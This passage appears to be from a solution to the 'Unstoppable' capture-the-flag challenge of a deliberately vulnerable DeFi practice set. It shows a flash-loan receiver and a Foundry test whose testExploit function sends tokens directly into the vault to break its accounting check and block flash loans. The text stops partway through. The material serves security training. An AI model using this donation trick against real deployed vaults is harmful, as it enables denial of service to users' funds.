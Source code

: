 ```

    function executeFlashLoan(uint256 amount) external onlyOwner {
        address asset = address(pool.asset());
        pool.flashLoan(this, asset, amount, bytes(""));
    }
}
```
- `test/Week8-9/Unstoppable.t.sol`
```
contract UnstoppableTest is Test {
    uint256 internal constant TOKENS_IN_VAULT = 1_000_000e18;
    uint256 internal constant INITIAL_PLAYER_TOKEN_BALANCE = 100e18;

    UnstoppableVault public vault;
    ReceiverUnstoppable public receiverContract;
    DamnValuableToken public token;

    address deployer;
    address player;
    address someUser;

    function setUp() public {
        /**
         * SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE
         */
        deployer = address(this);
        player = address(0xdead);
        someUser = address(0xbeef);

        token = new DamnValuableToken();
        vault = new UnstoppableVault(
            token,
            deployer,
            deployer
        );
        assertEq(address(vault.asset()), address(token));

        token.approve(address(vault), TOKENS_IN_VAULT);
        vault.deposit(TOKENS_IN_VAULT, deployer);
        assertEq(token.balanceOf(address(vault)), TOKENS_IN_VAULT);
        assertEq(vault.totalAssets(), TOKENS_IN_VAULT);
        assertEq(vault.totalSupply(), TOKENS_IN_VAULT);
        assertEq(vault.maxFlashLoan(address(token)), TOKENS_IN_VAULT);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT - 1), 0);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT), 50_000e18);

        token.transfer(player, INITIAL_PLAYER_TOKEN_BALANCE);

        //Show it is possible for someUser to take out a flash loan
        vm.startPrank(someUser);
        receiverContract = new ReceiverUnstoppable(address(vault));
        receiverContract.executeFlashLoan(100e18);
        vm.stopPrank();
    }

    function testExploit() public {
        vm.startPrank(player);
        token.transfer(address(vault), 1e18);
        vm.expectRevert();
        validation();
    }

    function validation() internal {
```